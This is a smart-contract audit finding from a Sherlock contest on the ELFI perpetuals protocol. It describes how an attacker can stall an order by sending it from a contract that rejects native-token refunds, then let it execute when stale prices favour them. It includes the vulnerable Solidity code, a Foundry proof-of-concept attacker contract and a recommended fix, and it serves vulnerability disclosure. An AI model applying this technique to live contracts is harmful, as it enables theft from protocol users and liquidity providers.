 Energetic Lemonade Woodpecker

High

# Attacker can game the system by delaying their order execution until price favors them

## Summary
Attacker can delay execution of their order until price favours them.

## Vulnerability Detail
A malicious actor can stall their transactions in the mempool until it favours them before allowing it to execute, with the following steps:
- Create a request with an large `executionFee`, such that the pool will have to [reimburse](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/GasProcess.sol#L36) you with `refundFee` (which is in native token) at the end of the execution call.
- Create this transaction from an address that can't receive native token to prevent the transaction from executing successfully
- When the time is right, toggle your address to be able to receive native token for the Tx to execute. This is achievable with metamorphic and upgradable contracts.


## Impact
- Attacker can execute trade orders with stale prices, effectively making risk free profit.


## Code Snippet
Create a request with an large `executionFee`, such that the pool will have to reimburse you with `refundFee`.
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/GasProcess.sol#L36
```js
function processExecutionFee(PayExecutionFeeParams memory cache) external {
        uint256 usedGas = cache.startGas - gasleft();
        uint256 executionFee = usedGas * tx.gasprice;
        uint256 refundFee;
        uint256 lossFee;
        if (executionFee > cache.userExecutionFee) {
            executionFee = cache.userExecutionFee;
            lossFee = executionFee - cache.userExecutionFee;
        } else {
            refundFee = cache.userExecutionFee - executionFee;
        }
 // ...
        VaultProcess.withdrawEther(cache.keeper, executionFee);
        if (refundFee > 0) {
            VaultProcess.withdrawEther(cache.account, refundFee);
        }
// ...
    }
```

`refundFee` is sent in native token.
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/VaultProcess.sol#L50-L54
```js
    function withdrawEther(address receiver, uint256 amount) internal {
        address wrapperToken = AppConfig.getChainConfig().wrapperToken;
        IWETH(wrapperToken).withdraw(amount);
        safeTransferETH(receiver, amount);
    }

    function safeTransferETH(address to, uint256 value) public {
        (bool success, ) = to.call{ value: value }(new bytes(0));
        require(success, "STE");
    }
```

## Proof of Code

<details>
**How to run the PoC**
- Clone this repo. This is a Foundry version of the original repo.
```bash
git clone https://github.com/Renzo1/Elfi-Foundry2.git
```
- Open `test/README` for guide on how to run the all the PoCs and Test in the Repo
- For this particular PoC, run:
```bash
	forge test --match-test testStallOrder
```

**The PoC*
```js
	contract AttackerCanStallOrder is Test, TargetFunctions, FoundryAsserts {
		Attacker attacker;

		function setUp() public {
			setup();
			attacker = new Attacker(diamondAddress);
		}


		function __mintStakeTokenRequest() internal {
			// Create Mint Params
			uint256 _answer = 50_000;
			BeforeAfterParamHelper memory beAfParams;
			IStake.MintStakeTokenParams memory params;
			beAfParams.oracles = getOracleParam(_answer);

			/// createOrder params setup
			params.stakeToken = stakedTokens[0];
			params.requestToken = address(weth);
			params.requestTokenAmount = 1000e18;
			params.walletRequestTokenAmount = 1000e18;
			params.minStakeAmount = 0;
			params.executionFee = ChainConfig.getMintGasFeeLimit();
			params.isCollateral = false;
			params.isNativeToken = false;

			uint256 requestId = diamondStakeFacet.createMintStakeTokenRequest{value: params.executionFee}(params);
			vm.prank(keeper);
			diamondStakeFacet.executeMintStakeToken(requestId, beAfParams.oracles);
			console2.log("requestId", requestId);
		}


		// forge test --match-test testStallOrder
		function testStallOrder() public {
			uint256 _answer = 50_000;
			BeforeAfterParamHelper memory beAfParams;
			IOrder.PlaceOrderParams memory params;
			beAfParams.oracles = getOracleParam(_answer);


			/// createOrder params setup
			params.symbol = MarketConfig.getWethSymbol();
			params.isCrossMargin = false;
			params.isNativeToken = false;
			params.orderSide = Order.Side.LONG;
			params.posSide = Order.PositionSide.INCREASE;
			params.orderType = Order.Type.MARKET;
			params.stopType = Order.StopType.NONE;
			params.marginToken = address(weth);
			params.qty = 0;
			params.orderMargin = 10e18;
			params.leverage = MarketConfig.getMaxLeverage() / 2;
			params.triggerPrice = 0; // triggerPrice 
			params.acceptablePrice = uint256(beAfParams.oracles[0].maxPrice);
			params.executionFee = ChainConfig.getPlaceIncreaseOrderGasFeeLimit() * 2; // Using excessive gas fee so that a portion will be refunded
			params.placeTime = block.timestamp;

			// Deal attacker some balance
			vm.startPrank(keeper); // keeper is also the admin in this example
			hevm.deal(address(attacker), TradeConfig.getEthInitialAllowance() * 1000); // Sets the eth balance of user to amt
			weth.mint(address(attacker), (TradeConfig.getWethInitialAllowance() * 1000) * (10 ** weth.decimals())); // Sets the weth balance of user to amt
			vm.stopPrank();

			vm.prank(USERS[0]);
			uint256 orderId = attacker.createOrder{value: params.executionFee}(params);
			console2.log(orderId);

			__mintStakeTokenRequest();
			vm.expectRevert();
			diamondOrderFacet.executeOrder(orderId, beAfParams.oracles);
		}
	}

	contract Attacker {
		IOrder diamondOrderFacet;

		constructor(address _diamond) {
			diamondOrderFacet =IOrder(_diamond);
		}

		function createOrder(IOrder.PlaceOrderParams memory params) public payable returns(uint256 orderId) {
			// Set allowance for diamond address
			IERC20(params.marginToken).approve(address(diamondOrderFacet), type(uint256).max);

			return diamondOrderFacet.createOrderRequest{value: msg.value}(params);
		}

		// No fallback or receive function
		// receive() external payable {} // toggle for test to fail with "Reason: call did not revert as expected"
	}

```
</details>


## Tool used
Manual Review


## Recommendation
Send `refundfee` fee in ERC20 token.